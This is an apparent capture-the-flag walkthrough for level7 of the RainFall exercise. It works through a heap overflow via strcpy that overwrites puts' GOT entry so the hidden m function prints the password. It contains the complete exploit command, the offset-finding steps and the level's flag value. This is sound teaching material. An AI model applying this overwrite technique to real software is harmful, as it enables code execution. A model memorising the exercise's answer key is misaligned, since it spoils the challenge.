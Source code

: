 # Walkthrough

## Solution

```
./level7 $(python -c 'print "A" * 20 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1666004181
 ```

## Explanation

### Execution

```
level7@RainFall:~$ ./level7 
Segmentation fault (core dumped)
level7@RainFall:~$ ./level7 hello
Segmentation fault (core dumped)
level7@RainFall:~$ ./level7 hello hello
~~
```  
-> The program takes 2 arguments and prints "~~"

### Disassembly

```
info var:
0x08049960  c

info function
0x080484f4  m
0x08048521  main
```

You can view the commented asm code [here](Ressources/assembly.asm)  
You can view the asm code translated to C [here](source.c)  

### Steps

The main stores the .pass file in the c variable, but doesn't print it.  
-> We need to call the m function that is not called, but that prints the c variable.  

Let's try to call the m function instead of the puts function.  

Address of m: 0x080484f4  
Address of puts in the GOT, as the address in the PLT is read-only: 0x08049928  
```
level7@RainFall:~$ objdump -R ./level7
./level7:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE
08049928 R_386_JUMP_SLOT   puts
```

-> we need to replace the address of puts by the address of m.
`
man strcy:
 If the destination string of a strcpy() is not large enough, then anything might happen.  Overflowing fixed-length string buffers is a favorite cracker technique for taking complete control of the machine.
`

-> We can overflow with strcpy.

- Find the overflow offset :  
```
level7@RainFall:~$ ltrace ./level7 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac
__libc_start_main(0x8048521, 2, 0xbffff794, 0x8048610, 0x8048680 <unfinished ...>
malloc(8)                                                = 0x0804a008
malloc(8)                                                = 0x0804a018
malloc(8)                                                = 0x0804a028
malloc(8)                                                = 0x0804a038
strcpy(0x0804a018, "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab"...) = 0x0804a018
strcpy(0x37614136, NULL <unfinished ...> --> 20 in the Buffer Overflow pattern generator
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
```  
--> offset is at 20  

- Build the command :  

```
./level7 arg1 arg2
arg1 = x padding to overflow into 3rd malloc, and replace ptr2[1] with address of puts
arg2 = address of m
```
-> so that we have strcpy(dest: &puts, src: &m), so when we call puts("~~"), we will call m in reality.

- Final Command :  

```
./level7 $(python -c 'print "A" * 20 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1666004181
```